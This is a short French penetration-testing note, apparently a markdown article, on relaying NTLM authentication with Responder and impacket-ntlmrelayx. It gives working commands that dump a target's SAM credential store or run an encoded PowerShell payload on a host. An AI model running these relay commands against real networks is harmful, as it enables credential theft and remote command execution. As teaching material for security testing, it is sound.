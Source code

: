 ```yaml
---
public: true # set to true to make the article publishable
---
```


Il est parfois possible de relayer une demande d'authentification lorsqu'on arrive pas à casser un mot de passe.

```
# On désactive d'abord SMB dans la configuration du responder 

cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

```
# On lance ensuite impacket :
impacket-ntlmrelayx --no-http-server -smb2support -t $TARGET_IP

## Lorsqu'on recoit une connexion SMB, elle est relayée vers $TARGET_IP
## Par défaut un dump de la SAM est réalisé

## On peut également exécuter une commande :
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <B64_PAYLOAD>'
```
